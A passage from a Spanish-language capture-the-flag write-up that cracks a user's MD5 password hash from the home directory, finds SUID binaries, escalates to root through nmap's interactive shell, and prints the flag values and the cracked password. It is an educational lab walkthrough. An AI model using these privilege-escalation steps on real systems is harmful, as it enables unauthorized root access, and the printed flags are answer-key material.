drwxr-xr-x 10 root root 4.0K Jun 24  2015 usr
drwxr-xr-x 11 root root 4.0K Jun 24  2015 var
lrwxrwxrwx  1 root root   30 Jun 24  2015 vmlinuz -> boot/vmlinuz-3.13.0-55-generic
```
Para saber donde nos encontramos podemos usar el cmando `pwd`:

```sh
daemon@linux:/$ pwd
pwd
/
```
Como se ve estamos en el directorio raíz. A partir de aquí, comenzamos a explorar el sistema. 

Nos dirigimos al directorio `/home` 
```sh
daemon@linux:/$ cd home
daemon@linux:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
```

Aquí encontramos un usuario llamado **robot**
```sh
daemon@linux:/home$ cd robot
cd robot
´´´
Y en su directorio de archivos encontramos la segunda bandera `key-2-of-3.txt` y segundo archivo que por su nombre indica que está posiblemente cifrado `password.raw-md5`

```sh
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt  password.raw-md5
```
Podemos intentar ver su contenido con el comando `cat`:

```sh
daemon@linux:/home/robot$ cat key-2-of-3.txt
```

La respuesta nos indica que no tenemos permisos para leerlo:
```sh
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
```

Vamos a intentar obtener la contraseña del usuario.

## ix
**Descifrado del Hash MD5**

Veamos si podemos ver el contenido del archivo `password.raw-md5`
```sh
daemon@linux:/home/robot$ cat password.raw-md5
```

Identificamos un hash MD5
```sh
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Para descifrar el hash podemos usar el servicio on-line de **[CrackStation](https://crackstation.net/)**. 


```sh
Hash	                                Type	Result
c3fcd3d76192e4007dfb496cca67e13b	md5	abcdefghijklmnopqrstuvwxyz
```

Con la contraseña obtenida, ya podemos cambiar al usuario **robot**:
```bash
su robot
```
Ingresamos la contraseña que hemos obtenido descifrando el hash anterior y ahora tenemos acceso como el usuario `robot`. Y ahora ya podemos leer el archivo `key-2-of-3.txt`.

```sh
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ pwd
pwd
/home/robot
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$
```
> Hemos alcanzado el segundo objetivo CTF!!! &rarr; 822c73956184f694993bede3eb39f959

## x

Sólo nos queda obtener la última bandera para lo que debemos obtener la **escalada de privilegios a root**.

Para escalar privilegios a root, encontramos un archivo ejecutable con permisos **SUID**. Estos permisos permiten que el archivo se ejecute con los privilegios del propietario, que en este caso es root.

1. Verificamos los permisos SUID con el siguiente comando:
   ```sh
   find / -perm -u=s -type f 2>/dev/null
   ```
   Este comando busca archivos con permisos SUID en el sistema:
	- `find /`: Busca en todo el sistema desde la raíz (/).
	- `-perm -u=s`: Busca archivos con el bit SUID activado, lo que permite que se ejecuten con los permisos del propietario (generalmente root).
	- `-type f`: Limita la búsqueda solo a archivos regulares (no directorios ni enlaces).
	- `2>/dev/null`: Redirige los mensajes de error (canal 2) a `/dev/null`, ocultando los errores de acceso a directorios restringidos.
   En resumen, este comando encuentra archivos ejecutables que permiten la escalada de privilegios mediante el bit SUID.


2. Entre los archivos listados, encontramos que **nmap** tiene permisos SUID.
   ```sh
   robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
   find / -perm -u=s -type f 2>/dev/null
   /bin/ping
   /bin/umount
   /bin/mount
   /bin/ping6
   /bin/su
   /usr/bin/passwd
   /usr/bin/newgrp
   /usr/bin/chsh
   /usr/bin/chfn
   /usr/bin/gpasswd
   /usr/bin/sudo
   /usr/local/bin/nmap
   /usr/lib/openssh/ssh-keysign
   /usr/lib/eject/dmcrypt-get-device
   /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
   /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
   /usr/lib/pt_chown
   ``` 
   El comando ha listado los ejecutables que tienen ese permiso especial que nos permite elevar privilegios. Podemos ver que tenemos varios, pero el que nos interesa es `nmap`. Y por qué `nmap`? Porque `nmap` nos va a permitir una manera de poder escalar privilegios y ejecutar comandos a la vez.
   Hay una página llamada [`gtfobins`](https://gtfobins.github.io/) en la que encontraremos ejecutables que con los permisos correctos, o incorrectos en este caso, nos permiten escalar privilegios como `root`. Vamos a buscar `nmap` en `gtfobeans` y vamos a ver cómo podemos escalar privilegios con `nmap`. 
   
   

3. Como `nmap` tiene los permisos para ser ejecutado como `root`,lo usaremos en modo interactivo para ejecutar una shell como root:
   ```sh
   nmap --interactive
   !sh
   ```
   Ahora tenemos una shell con privilegios de root.
   
   ```sh
   robot@linux:~$ nmap --interactive
   nmap --interactive

   Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
   Welcome to Interactive Mode -- press h <enter> for help
   nmap> !sh
   !sh
   # 
   ```
   Hemos conseguido ejecutar una línea de comandos nueva con privilegios de usuario `root`. 
   Podemos usar el comando `whoami` para asegurarnos:
   ```sh
   # whoami
   whoami
   root
   # 
   ```

4. Finalmente, navegamos al directorio `/root` y leemos el archivo `flag3.txt`, completando la escalada de privilegios y la obtención de la tercera bandera del reto CFT.

```sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt           
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 

```

> Tercera bandera del reto CFT &rarr; 04787ddef27c3dee1ee161b21670b4e4


```sh
# ls -lah            
ls -lah
total 32K
drwx------  3 root root 4.0K Nov 13  2015 .
drwxr-xr-x 22 root root 4.0K Sep 16  2015 ..
-rw-------  1 root root 4.0K Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3.2K Sep 16  2015 .bashrc
drwx------  2 root root 4.0K Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1.0K Sep 16  2015 .rnd
#
```
---

Este proceso demuestra cómo se puede comprometer una máquina a través de la explotación de un tema en WordPress y la escalada de privilegios mediante archivos con permisos incorrectos.


 


